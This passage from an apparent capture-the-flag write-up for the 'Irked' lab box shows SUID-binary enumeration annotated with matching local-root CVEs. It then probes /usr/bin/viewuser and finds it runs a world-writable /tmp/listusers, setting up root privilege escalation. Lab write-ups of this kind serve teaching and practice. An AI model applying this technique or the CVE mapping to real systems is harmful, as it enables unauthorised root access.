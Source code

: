 ```sh
-rwsr-xr-x 1 root root 18K Sep  8  2016 /usr/bin/pkexec  --->  Linux4.10_to_5.1.17(CVE-2019-13272)/rhel_6(CVE-2011-1485)/Generic_CVE-2021-4034
-rwsr-sr-x 1 root root 9.3K Apr  1  2014 /usr/bin/X
-rwsr-xr-x 1 root root 52K May 17  2017 /usr/bin/passwd  --->  Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)
-rwsr-xr-x 1 root root 52K May 17  2017 /usr/bin/chfn  --->  SuSE_9.3/10
-rwsr-xr-x 1 root root 7.2K May 16  2018 /usr/bin/viewuser (Unknown SUID binary!)
-rwsr-xr-x 1 root root 95K Aug 13  2014 /sbin/mount.nfs
-rwsr-xr-x 1 root root 38K May 17  2017 /bin/su
-rwsr-xr-x 1 root root 34K Mar 29  2015 /bin/mount  --->  Apple_Mac_OSX(Lion)_Kernel_xnu-1699.32.7_except_xnu-1699.24.8
-rwsr-xr-x 1 root root 34K Jan 21  2016 /bin/fusermount
-rwsr-xr-x 1 root root 158K Jan 28  2017 /bin/ntfs-3g  --->  Debian9/8/7/Ubuntu/Gentoo/others/Ubuntu_Server_16.10_and_others(02-2017)
-rwsr-xr-x 1 root root 26K Mar 29  2015 /bin/umount  --->  BSD/Linux(08-1996)

<snip>

```
{% endraw %}

<br />
Try to give it a run just to see what it does.

{% raw %}
```sh
ircd@irked:/dev/shm$ /usr/bin/viewuser --help
/usr/bin/viewuser --help
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2025-02-02 00:51 (:0)
sh: 1: /tmp/listusers: not found
```
{% endraw %}

<br />
Create a /tmp/listusers file with the ircd user to see what happens.

{% raw %}
```sh
ircd@irked:/dev/shm$ echo ircd > /tmp/listusers
echo ircd > /tmp/listusers
ircd@irked:/dev/shm$ /usr/bin/viewuser
/usr/bin/viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2025-02-02 00:51 (:0)
sh: 1: /tmp/listusers: Permission denied
ircd@irked:/dev/shm$ chmod 777 /tmp/listusers
chmod 777 /tmp/listusers
ircd@irked:/dev/shm$ /usr/bin/viewuser
/usr/bin/viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2025-02-02 00:51 (:0)
/tmp/listusers: 1: /tmp/listusers: ircd: not found
```
{% endraw %}
